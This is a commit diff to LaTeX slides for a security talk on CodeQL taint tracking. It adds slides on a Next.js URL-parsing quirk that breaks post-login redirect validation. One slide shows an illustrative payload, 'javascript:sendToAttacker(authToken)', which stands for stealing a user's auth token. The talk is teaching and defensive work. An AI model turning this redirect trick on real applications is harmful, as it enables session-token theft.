

Before and after one commit to zeyu2001/cam-ib-tech-talk, LaTeX slides (talk.tex): page 24 of 31 before the commit and pages 24 and 25 of 34 after it, the two joined at a grey line, the shorter picture padded with empty space. The pictures show the PDF file talk.pdf that the author committed with the source.

Commit message:
change codeql demo

```diff
--- a/talk.tex
+++ b/talk.tex
@@ -584,12 +585,32 @@
 \end{frame}
 
 %----------------------------------------------------------------------------------------
-\begin{frame}{In Practice: CodeQL}
+\begin{frame}[fragile]{Let's Go On A Little Adventure}
+	\begin{itemize}
+		\item Next.js, the most popular React framework, has some weird, poorly documented
+		      URL parsing semantics that does not conform to the widely accepted WHATWG URL
+		      standard
+		\item This is unexpected behaviour, and often results in wrong URL validation
+		\item Made a responsible disclosure $\approx 1$ year ago, still not fixed \end{itemize}
+	\bigskip
+	Let's query open-source GitHub projects to find instances of this bug!
+	\bigskip
+	\begin{itemize}
+		\item Common design pattern: unauthenticated user visits \verb|/admin|, gets
+		      redirected to \verb|/login?next=/admin|, logs in, and gets redirected back to
+		      \verb|/admin|
+		\item Use Next.js URL parsing trickery to turn a ``normal'' URL into
+		      \verb|javascript:sendToAttacker(authToken)| at the final step
+	\end{itemize}
+\end{frame}
+
+%----------------------------------------------------------------------------------------
+\begin{frame}{Taint Tracking in CodeQL}
 	We want to find all instances where untrusted user input (source) reaches a
 	sensitive function (sink) without being sanitized.
 
 	\begin{figure}
-		\includegraphics[width=\textwidth]{img/3.png}
+		\includegraphics[height=0.7\textheight]{img/3.png}
 	\end{figure}
 \end{frame}
 
@@ -633,7 +662,31 @@
 \end{frame}
 
 %----------------------------------------------------------------------------------------
+\begin{frame}{Let's Go Hunting}
+
+	\begin{figure}
+		\includegraphics[width=\textwidth]{img/8.png}
+	\end{figure}
+
+\end{frame}
+
+%----------------------------------------------------------------------------------------
+\begin{frame}{Let's Go Hunting}
+	\note{Begin demo here. Show the variant analysis results on VSCode, and show the demo exploit.}
+	\begin{figure}
+		\includegraphics[width=\textwidth]{img/9.png}
+	\end{figure}
+
+\end{frame}
+
+%----------------------------------------------------------------------------------------
 \begin{frame}{Limitations}
+
+	CodeQL is very useful as a CI integration to catch security issues early in the
+	development process, and provide guarantees about your code. But it's really
+	hard to get right \dots
+
+	\bigskip
 
 	\begin{itemize}
 		\item We need to create custom taint specifications for third-party library APIs.
```
Also changed, not shown: codeql/codeql-pack.lock.yml (added, +26 -0 lines), codeql/codeql-pack.yml (added, +7 -0 lines), img/3.png, img/5.png, img/6.png, img/8.png (added), img/9.png (added), talk.pdf, talk.tex (13 more changed lines), 1 other file.
